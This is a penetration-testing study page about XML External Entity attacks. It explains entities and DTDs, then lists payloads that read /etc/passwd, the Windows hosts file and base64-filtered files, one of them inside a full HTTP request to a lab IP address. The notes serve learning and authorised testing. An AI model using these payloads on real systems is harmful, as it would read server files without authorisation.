 ```yaml
---
title: XXE - XEE XML External Entity attack 
author: amandaguglieri
draft: false
TableOfContents: true
---
```


# XXE - XEE XML External Entity attacks

Most of this content comes from [HackTricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity).

## Basic concepts

### What it XML?

XML stands for "extensible markup language". XML is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data. 

### What are XML entities?

XML entities are a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built in to the specification of the XML language. For example, the entities &lt; and &gt; represent the characters < and >. These are metacharacters used to denote XML tags, and so must generally be represented using their entities when they appear within data.

### What are XML elements?

Element type declarations set the rules for the type and number of elements that may appear in an XML document, what elements may appear inside each other, and what order they must appear in. For example:

```
<!ELEMENT stockCheck ANY> Means that any object could be inside the parent <stockCheck></stockCheck>

<!ELEMENT stockCheck EMPTY> Means that it should be empty <stockCheck></stockCheck>

<!ELEMENT stockCheck (productId,storeId)> Declares that <stockCheck> can have the children <productId> and <storeId>
```

### What is document type definition?

The XML document type definition (DTD) contains declarations that can define the structure of an XML document, the types of data values it can contain, and other items. The DTD is declared within the optional DOCTYPE element at the start of the XML document. The DTD can be fully self-contained within the document itself (known as an "internal DTD") or can be loaded from elsewhere (known as an "external DTD") or can be hybrid of the two.


### What are XML custom entities?

XML allows custom entities to be defined within the DTD. For example:

```
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
```

This definition means that any usage of the entity reference &myentity; within the XML document will be replaced with the defined value: "my entity value".


### What are XML external entities?

XML external entities are a type of custom entity whose definition is located outside of the DTD where they are declared. The declaration of an external entity uses the SYSTEM keyword and must specify a URL from which the value of the entity should be loaded. For example:

```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
```

The URL can use the file:// protocol, and so external entities can be loaded from file. For example:

```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
<stockCheck>
    <productId>&ext;</productId>
    <storeId>1</storeId>
</stockCheck>

```

## Main attacks

### New Entity test

In this attack I'm going to test if a simple new ENTITY declaration is working:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
    <productId>&toreplace;</productId>
    <storeId>1</storeId>
</stockCheck>
```

### Read the file attack

In a windows system, we may use c:/windows/system32/drivers/etc/hosts:

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 192
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/system32/drivers/etc/hosts'>]>
<order>
    <quantity>2</quantity>
    <item>&test;</item>
    <address>1</address>
</order>
```

In a Linux server go for 

```
# example 1
<!DOCTYPE foo [<!ENTITY example1 SYSTEM "/etc/passwd"> ]>
<order>
    <quantity>2</quantity>
    <item>&example1;</item>
    <address>1</address>
</order>


# example 2
<!DOCTYPE foo [ <!ENTITY example2 SYSTEM "file:///etc/passwd" > ]>
<order>
    <quantity>2</quantity>
    <item>&example2;</item>
    <address>1</address>
</order>
```


## Encoding techniques

```
<!DOCTYPE foo [ <!ENTITY example2 SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd" > ]>
```

This filter return the file base64-encoded to avoid data loss and truncate.

## Interesting files

[Interesting Windows files](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/windows/interesting-files.md)
[Interesting Linux files](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/Linux/interesting-files.md)
